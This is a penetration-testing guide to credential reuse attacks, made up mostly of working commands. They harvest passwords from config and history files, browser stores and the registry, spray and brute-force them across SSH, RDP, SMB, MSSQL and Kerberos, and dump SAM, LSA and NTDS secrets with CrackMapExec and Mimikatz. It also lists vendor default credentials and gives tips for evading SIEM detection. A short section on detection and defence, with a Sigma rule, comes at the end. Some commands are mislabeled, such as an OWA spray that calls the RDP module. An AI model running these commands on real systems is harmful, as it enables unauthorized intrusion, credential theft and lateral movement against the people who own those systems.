


# Credential Reuse Attacks
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Overview](#overview)
2. [Why Credential Reuse Works](#why-credential-reuse-works)
3. [Attack Type Comparison](#attack-type-comparison)
4. [Credential Inventory — Finding What You Have](#credential-inventory--finding-what-you-have)
5. [Testing Against Services](#testing-against-services)
6. [CrackMapExec Reference](#crackmapexec-reference)
7. [Password Spraying](#password-spraying)
8. [Kerbrute for Domain Accounts](#kerbrute-for-domain-accounts)
9. [Default Credentials Reference](#default-credentials-reference)
10. [Automation Tools Comparison](#automation-tools-comparison)
11. [Attack Decision Tree](#attack-decision-tree)
12. [OpSec: Avoiding Detection](#opsec-avoiding-detection)
13. [Detection & Defense](#detection--defense)

---

## Overview

**Credential reuse** is the attack technique where credentials discovered during an engagement — whether through dumping LSASS, finding a config file, capturing NTLM hashes, or brute-forcing a service — are tested against other systems and services in the environment.

In virtually every real-world penetration test and red team engagement, credential reuse is responsible for the widest lateral movement. Exploiting a zero-day is rare. Finding that `admin:Welcome1!` works on 40 out of 200 workstations because of a shared local admin password is common.

> **Note:** A 2023 Verizon DBIR report found that over 80% of hacking-related breaches involved either stolen credentials or brute force. Credential reuse is not theoretical — it is the default attack path.

### The Credential Reuse Attack Chain



---

## Why Credential Reuse Works

### The Human Factor

| Behavior | Frequency | Impact |
|----------|-----------|--------|
| Same password for work and personal accounts | 51–65% of users | Breach data enables corporate access |
| Same password across multiple internal systems | ~40% of IT admins | One compromise = many |
| Predictable password patterns (`Season+Year!`) | Very common | Enables efficient spraying |
| Shared service account passwords | Very common | Often domain-wide impact |
| Default credentials never changed | Present in most orgs | Easy wins on printers, routers, apps |
| Password "rotation" that just increments | Common | `Password1!` → `Password2!` |

### Structural Failures

- **Shared local admin password**: Before LAPS, IT teams often imaged machines with the same local admin password. One workstation dump → all workstations.
- **Service account reuse**: Service accounts often authenticate across many servers, making them high-value targets.
- **Password policies without enforcement**: Minimum complexity requirements without password manager adoption creates predictable patterns.
- **No MFA on internal services**: RDP, WinRM, SSH, and internal web apps rarely have MFA enforced.

> **Warning:** Even after LAPS is deployed, legacy systems and newly imaged machines that haven't received their first LAPS rotation may still use the default build password.

---

## Attack Type Comparison

| Attack Type | Strategy | Target | Account Lockout Risk | Credential Source |
|------------|----------|--------|---------------------|------------------|
| **Password Spraying** | One password → many accounts | Domain accounts | Low (if timed properly) | Generated/common |
| **Credential Stuffing** | Breach data → target service | Any accounts | Medium | Breach databases |
| **Targeted Reuse** | Found cred → other services | Specific accounts | Low | Internal discovery |
| **Brute Force** | Many passwords → one account | Specific account | High | Wordlists |
| **Default Credentials** | Known defaults → service | Service accounts | Low | Vendor documentation |

### When to Use Each Approach

```
Engagement Phase:
├── Early (minimal info)       → Default credentials, OSINT-based spraying
├── Mid (some access)          → Targeted reuse of found credentials
│   ├── Have plaintext creds?  → Test all services immediately
│   └── Have hashes only?      → PtH + crack offline in parallel
└── Late (significant access)  → Spray with org-specific passwords, domain policy aware
```

---

## Credential Inventory — Finding What You Have

Before testing credentials, build a complete inventory of everything available.

### From a Linux Host

```bash
# Configuration files with potential credentials
find / -name "*.conf" -o -name "*.cfg" -o -name "*.ini" -o -name "*.env" 2>/dev/null | \
    xargs grep -l "password\|passwd\|secret\|credential\|api_key" 2>/dev/null

# History files
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.mysql_history
cat ~/.psql_history

# SSH keys and known hosts
find / -name "id_rsa" -o -name "id_ed25519" -o -name "*.pem" 2>/dev/null
cat ~/.ssh/known_hosts  # Maps internal hostnames

# Web application configs
find /var/www /srv /opt /home -name "wp-config.php" \
    -o -name "database.yml" -o -name ".env" -o -name "settings.py" 2>/dev/null | \
    xargs grep -l "password\|DATABASE_URL" 2>/dev/null

# Docker and container secrets
find / -name "docker-compose.yml" -o -name "docker-compose.yaml" 2>/dev/null | \
    xargs grep -i "password\|secret\|PASS" 2>/dev/null

# Credential manager / keyring
ls -la ~/.gnome-keyring ~/.local/share/keyrings/ 2>/dev/null
cat /home/*/.config/chromium/Default/Login\ Data 2>/dev/null
```

### From a Windows Host

```powershell
# Search for credential files
Get-ChildItem -Path C:\ -Include *.xml,*.ini,*.txt,*.config -Recurse -ErrorAction SilentlyContinue |
    Select-String -Pattern "password|passwd|credential|secret" |
    Select-Object Filename, LineNumber, Line

# Stored Windows credentials
cmdkey /list

# PowerShell history
Get-Content "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"

# IIS web.config files
Get-ChildItem -Path C:\inetpub -Recurse -Include web.config |
    Select-String -Pattern "password|connectionString"

# Unattended install files (goldmine for plaintext passwords)
Get-ChildItem -Path C:\ -Recurse -Include "unattend.xml","sysprep.xml","autounattend.xml" `
    -ErrorAction SilentlyContinue

# Registry credential storage
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# Browser saved passwords (Chrome)
# Requires DPAPI decryption — use SharpChrome or CrackMapExec
```

---

## Testing Against Services

### SSH

```bash
# Single credential test
ssh -o StrictHostKeyChecking=no -o ConnectTimeout=5 user@192.168.1.50

# Test a list of hosts
for host in $(cat hosts.txt); do
    sshpass -p 'Password123' ssh -o StrictHostKeyChecking=no \
        -o ConnectTimeout=3 user@$host "hostname; whoami" 2>/dev/null \
        && echo "[+] SUCCESS: $host"
done

# With specific key file
ssh -i /path/to/id_rsa -o StrictHostKeyChecking=no user@192.168.1.50

# CrackMapExec SSH spray
crackmapexec ssh 192.168.1.0/24 -u user -p 'Password123' --no-bruteforce
```

### RDP

```bash
# Test RDP with xfreerdp
xfreerdp /u:Administrator /p:'Password123' /v:192.168.1.50 /cert-ignore /auth-only

# Bulk RDP testing
crackmapexec rdp 192.168.1.0/24 -u Administrator -p 'Password123'

# GUI RDP session
xfreerdp /u:Administrator /p:'Password123' /v:192.168.1.50 /cert-ignore /dynamic-resolution
```

### FTP

```bash
# Manual FTP test
ftp 192.168.1.50 <<EOF
user
Password123
dir
quit
EOF

# Hydra FTP spray
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.50 -t 4

# CrackMapExec FTP
crackmapexec ftp 192.168.1.0/24 -u user -p 'Password123'
```

### MSSQL

```bash
# Impacket MSSQL
impacket-mssqlclient domain/sa:'Password123'@192.168.1.50 -windows-auth

# CrackMapExec MSSQL
crackmapexec mssql 192.168.1.0/24 -u sa -p 'Password123'

# Enable xp_cmdshell for RCE (if sa)
crackmapexec mssql 192.168.1.50 -u sa -p 'Password123' -x "whoami" --no-output
```

### MySQL / PostgreSQL

```bash
# MySQL
mysql -h 192.168.1.50 -u root -p'Password123' -e "SELECT user, host FROM mysql.user;"

# MySQL CrackMapExec
crackmapexec mysql 192.168.1.0/24 -u root -p 'Password123'

# PostgreSQL
psql -h 192.168.1.50 -U postgres -c "\l" -W
```

### OWA (Outlook Web Access)

```bash
# CrackMapExec OWA spray (rate-limited by default)
crackmapexec rdp 192.168.1.0/24 -u users.txt -p 'Summer2024!' --no-bruteforce

# Ruler tool for Exchange/OWA
ruler --domain corp.local --username user --password 'Password123' \
    --email user@corp.com --verbose brute --users users.txt --passwords passwords.txt
```

---

## CrackMapExec Reference

**CrackMapExec (CME/NetExec)** is the Swiss Army knife for Windows environment credential testing.

```bash
# ── DISCOVERY ─────────────────────────────────────────────────
# Identify hosts and gather system info
crackmapexec smb 192.168.1.0/24

# Check SMB signing (relay attack targets)
crackmapexec smb 192.168.1.0/24 --gen-relay-list unsigned_hosts.txt

# ── CREDENTIAL TESTING ────────────────────────────────────────
# Test single credential across subnet
crackmapexec smb 192.168.1.0/24 -u Administrator -p 'Password123'

# Test with hash (PtH)
crackmapexec smb 192.168.1.0/24 -u Administrator -H NTLM_HASH

# Test list of users and passwords (no bruteforce = 1:1 pairing)
crackmapexec smb 192.168.1.0/24 -u users.txt -p passwords.txt --no-bruteforce

# ── ENUMERATION ───────────────────────────────────────────────
# List SMB shares
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --shares

# List logged-on users
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --loggedon-users

# List local users
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --local-users

# List local groups
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --local-groups

# List disks
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --disks

# Check password policy
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --pass-pol

# ── EXECUTION ─────────────────────────────────────────────────
# Run command via cmd.exe
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' -x "whoami /all"

# Run command via PowerShell
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' -X "Get-Process"

# ── MODULE SYSTEM ─────────────────────────────────────────────
# Dump SAM database
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --sam

# Dump LSA secrets
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --lsa

# Run Mimikatz in memory
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' -M mimikatz

# Dump NTDS.dit (domain controller)
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' --ntds

# Spider shares for sensitive files
crackmapexec smb 192.168.1.1 -u Administrator -p 'Password123' -M spider_plus \
    -o DOWNLOAD_FLAG=True EXCLUDE_EXTS=exe,dll,msi

# ── WINRM ─────────────────────────────────────────────────────
crackmapexec winrm 192.168.1.0/24 -u user -p 'Password123'
crackmapexec winrm 192.168.1.1 -u user -p 'Password123' -x "whoami"
```

> **Note:** CrackMapExec marks successful admin-level authentication with `(Pwn3d!)` in the output. If you see this flag, you have local admin access and can likely run commands via `--exec-method smbexec/wmiexec/mmcexec`.

---

## Password Spraying

**Password spraying** tests one (or a few) passwords against many accounts to avoid triggering account lockouts.

### Step 1: Check the Password Policy

```bash
# Check lockout threshold and observation window
net accounts /domain

# With CrackMapExec
crackmapexec smb 192.168.1.1 -u valid_user -p 'Password123' --pass-pol

# With LDAP (anonymous bind sometimes works)
ldapsearch -H ldap://192.168.1.1 -x -b "DC=corp,DC=local" \
    "(objectClass=domainPolicy)" lockoutThreshold lockoutDuration

# With rpcclient
rpcclient -U "" 192.168.1.1 -N -c "getdompwinfo"
```

### Step 2: Get a User List

```bash
# From LDAP (if authenticated)
ldapsearch -H ldap://192.168.1.1 -x -D "user@corp.local" -w "Password123" \
    -b "DC=corp,DC=local" "(objectClass=user)" sAMAccountName | \
    grep sAMAccountName | awk '{print $2}' > domain_users.txt

# Kerbrute user enumeration (no authentication needed)
kerbrute userenum --dc 192.168.1.1 -d corp.local \
    /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
    --output valid_users.txt

# CrackMapExec user enumeration
crackmapexec smb 192.168.1.1 -u '' -p '' --users 2>/dev/null
crackmapexec smb 192.168.1.1 -u valid_user -p 'Password123' --users

# From RPC (null session)
rpcclient -U "" 192.168.1.1 -N -c "enumdomusers" | \
    grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > users_rpc.txt
```

### Step 3: Calculate Safe Spray Rate

```bash
# If lockout threshold is 5 attempts with a 30-minute observation window:
# Safe strategy: 3 attempts per 30 minutes (stay under threshold)
# Spray 1 password, wait 31 minutes, spray next password

# Example: If you have 500 users and lockout is 5/30min
# Spray attempt 1: All 500 users with "Summer2024!"  → wait 31 min
# Spray attempt 2: All 500 users with "Winter2024!"  → wait 31 min
# Spray attempt 3: All 500 users with "Welcome1!"    → wait 31 min
# Spray attempt 4: All 500 users with "Company123!"  → wait 31 min
```

### Step 4: Execute the Spray

```bash
# Kerbrute password spray (Kerberos — fast, low noise)
kerbrute passwordspray --dc 192.168.1.1 -d corp.local \
    valid_users.txt 'Summer2024!' --delay 500ms --output spray_results.txt

# CrackMapExec spray (SMB)
crackmapexec smb 192.168.1.1 -u valid_users.txt -p 'Summer2024!' --no-bruteforce

# Spray with multiple passwords file (one per line, no bruteforce = 1:1 pairing)
crackmapexec smb 192.168.1.1 -u valid_users.txt -p spray_passwords.txt --no-bruteforce

# DomainPasswordSpray (PowerShell — from inside domain)
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList valid_users.txt -Password 'Summer2024!' \
    -OutFile spray_results.txt
```

> **Warning:** **Always check the lockout policy before spraying.** A lockout threshold of 3 with a 60-minute observation window means you can only safely spray 2 passwords per hour. Exceeding this will lock out accounts — highly visible and potentially disruptive to the client.

### Common Password Patterns to Try

| Password | Why It Works |
|----------|-------------|
| `Season+Year!` (e.g., `Summer2024!`) | Meets complexity, easy to remember |
| `CompanyName+Year` (e.g., `Acme2024!`) | Company-based passwords are ubiquitous |
| `Welcome1!` | Common default first-time password |
| `Password1!` | Meets minimum complexity requirements |
| `Monday1!` | Day-of-week based passwords |
| `[City][Year]!` | Local geography + year |
| `[Sports Team][Year]` | Regional sports teams |
| `qwerty` / `123456` | Simple passwords that slip through weak policies |

---

## Kerbrute for Domain Accounts

**Kerbrute** performs user enumeration and password spraying via Kerberos (port 88) — significantly faster and quieter than LDAP or SMB approaches.

```bash
# User enumeration — no authentication needed
# Uses Kerberos pre-auth error responses to identify valid usernames
kerbrute userenum \
    --dc 192.168.1.1 \
    -d corp.local \
    /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
    --output valid_users.txt \
    --downgrade   # Downgrade to AS-REQ to avoid lockout on enum

# Password spray
kerbrute passwordspray \
    --dc 192.168.1.1 \
    -d corp.local \
    valid_users.txt 'Summer2024!' \
    --delay 500ms \
    --output spray_results.txt

# Brute force specific account (risky — may lock out)
kerbrute bruteuser \
    --dc 192.168.1.1 \
    -d corp.local \
    /usr/share/wordlists/rockyou.txt \
    serviceaccount

# Check if an account exists (single user)
kerbrute userenum --dc 192.168.1.1 -d corp.local <(echo "administrator")
```

> **Note:** Kerbrute's user enumeration works because Kerberos returns different error codes for:
> - `KDC_ERR_C_PRINCIPAL_UNKNOWN` (0x6) → User does NOT exist
> - `KDC_ERR_PREAUTH_REQUIRED` (0x19) → User EXISTS, pre-auth needed
> - `KDC_ERR_CLIENT_REVOKED` (0x12) → User EXISTS but account disabled
> This makes it possible to enumerate valid users without any credentials.

---

## Default Credentials Reference

### Network Devices

| Vendor / Device | Default Username | Default Password |
|----------------|-----------------|-----------------|
| Cisco IOS | `cisco` | `cisco` |
| Cisco ASA | `admin` | `admin` or blank |
| Juniper JunOS | `root` | blank (first login) |
| Fortinet FortiGate | `admin` | blank |
| Palo Alto | `admin` | `admin` |
| F5 BIG-IP | `admin` | `admin` |
| Ubiquiti UniFi | `ubnt` | `ubnt` |
| MikroTik | `admin` | blank |
| Netgear | `admin` | `password` |
| D-Link | `admin` | blank or `admin` |
| HP/Aruba Switch | `manager` | `manager` |

### Server & OS

| Product | Default Username | Default Password |
|---------|-----------------|-----------------|
| VMware ESXi | `root` | `vmware` |
| VMware vCenter | `administrator@vsphere.local` | `vmware` (setup) |
| IPMI/BMC | `ADMIN` | `ADMIN` |
| iDRAC (Dell) | `root` | `calvin` |
| iLO (HP) | `Administrator` | (printed on server) |
| DRAC (Dell) | `root` | `calvin` |
| Supermicro IPMI | `ADMIN` | `ADMIN` |

### Web Applications & Services

| Application | Default Username | Default Password |
|-------------|-----------------|-----------------|
| Apache Tomcat | `tomcat` | `tomcat` or `s3cret` |
| Jenkins | `admin` | `admin` or from install log |
| Gitlab | `root` | `5iveL!fe` (older) / setup prompt |
| Grafana | `admin` | `admin` |
| Kibana | `elastic` | `changeme` |
| Elasticsearch | (none) | (none — no auth by default) |
| Redis | (none) | (none — no auth by default) |
| MongoDB | (none) | (none — no auth by default) |
| Hadoop | `hadoop` | `hadoop` |
| Jupyter Notebook | (none / token) | Check startup log |
| phpMyAdmin | `root` | blank or `root` |
| JIRA | `admin` | `admin` |
| Confluence | `admin` | `admin` |

### Database Defaults

| Database | Default Username | Default Password |
|----------|-----------------|-----------------|
| MSSQL | `sa` | blank (old) or set on install |
| MySQL | `root` | blank or `root` |
| PostgreSQL | `postgres` | `postgres` |
| Oracle | `sys` | `change_on_install` |
| Oracle | `system` | `manager` |
| DB2 | `db2inst1` | `db2inst1` |

---

## Automation Tools Comparison

| Tool | Protocol Support | Speed | Lockout Safe | Best Use Case |
|------|-----------------|-------|-------------|---------------|
| **CrackMapExec** | SMB, WinRM, MSSQL, SSH, LDAP, RDP | Fast | Yes (--no-bruteforce) | Windows environments |
| **Hydra** | 50+ protocols | Fast (parallel) | Manual timing | Generic service brute force |
| **Medusa** | 20+ protocols | Fast (parallel) | Manual timing | Mass credential testing |
| **Kerbrute** | Kerberos only | Very fast | Yes (designed for spray) | Domain user enum + spray |
| **Spray** | SMB, OWA | Medium | Yes (built-in delay) | OWA/Exchange spraying |
| **Ruler** | Exchange/OWA | Medium | Manual | Exchange exploitation |
| **Metasploit** | Many (modules) | Slow | Manual | All-in-one framework |

```bash
# Hydra — SSH brute force with rate limiting
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
    ssh://192.168.1.50 -t 4 -W 3 -f

# Hydra — HTTP POST form
hydra -l admin -P passwords.txt \
    192.168.1.30 http-post-form \
    "/login:username=^USER^&password=^PASS^:Invalid credentials" -t 10

# Medusa — MSSQL spray
medusa -h 192.168.1.50 -u sa -P passwords.txt -M mssql -t 2

# Spray tool — OWA password spray
spray.sh -owa https://192.168.1.1/owa users.txt 'Summer2024!' 3 90 corp.local
```

---

## Attack Decision Tree



---

## OpSec: Avoiding Detection

### Account Lockout Avoidance

```bash
# Always check lockout policy first
net accounts /domain
# Output example:
# Minimum password length:    8
# Lockout threshold:          5
# Lockout duration (minutes): 30
# Lockout observation window: 30
# Computer role:              PRIMARY

# Safe spray calculation:
# threshold = 5, window = 30 min
# Safe attempts = threshold - 2 = 3 per window
# Wait window + 1 minute (31 min) between spray rounds

# Use --delay option in kerbrute to pace requests
kerbrute passwordspray --dc DC_IP -d corp.local users.txt 'Password' --delay 1500ms
```

### Avoiding SIEM Detection

| Behavior | Detection Risk | Mitigation |
|----------|--------------|------------|
| Spray from single IP | High (source IP) | Use pivot hosts, distribute |
| Rapid authentication attempts | High (velocity) | Add delays between attempts |
| Testing during off-hours | Medium (time anomaly) | Spray during business hours |
| Testing non-existent users | Medium (4625 failures) | Enumerate users first |
| Testing all protocols simultaneously | High (breadth) | Test one protocol at a time |

---

## Detection & Defense

### Detection Indicators

| Event | Event ID | Description |
|-------|----------|-------------|
| Failed logon | 4625 | Multiple failures from same source = spray |
| Successful logon after failures | 4624 after 4625 | Successful spray |
| User account locked out | 4740 | Over-aggressive spray |
| Kerberos pre-auth failure | 4771 | Kerbrute spray |
| Explicit credential logon | 4648 | Credential reuse with runas |
| Account enumeration via LDAP | 4662 | LDAP enumeration |

### SIEM Rule (Sigma)

```yaml
title: Password Spray Detection — Multiple Failed Logins
status: stable
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4625
    LogonType: 3
  timeframe: 5m
  condition: selection | count(TargetUserName) by IpAddress > 20
level: high
tags:
  - attack.credential_access
  - attack.t1110.003
```

### Defenses

| Control | Mitigates | Implementation |
|---------|-----------|---------------|
| **MFA** | Credential reuse | Enable on all remote access |
| **Account lockout policy** | Brute force | 5 attempts, 30-min window |
| **Password manager mandate** | Password reuse | Corporate password manager + SSO |
| **LAPS** | Local admin reuse | Deploy LAPS on all workstations |
| **Credential Guard** | Hash theft | Enable via Device Guard |
| **Privileged Access Workstations** | Admin cred exposure | Separate admin workstations |
| **Zero Trust network access** | Lateral movement scope | Deny direct access to internal services |

---

*Tools referenced: CrackMapExec, Kerbrute, Hydra, Medusa, Kerbrute, Impacket, Ruler*
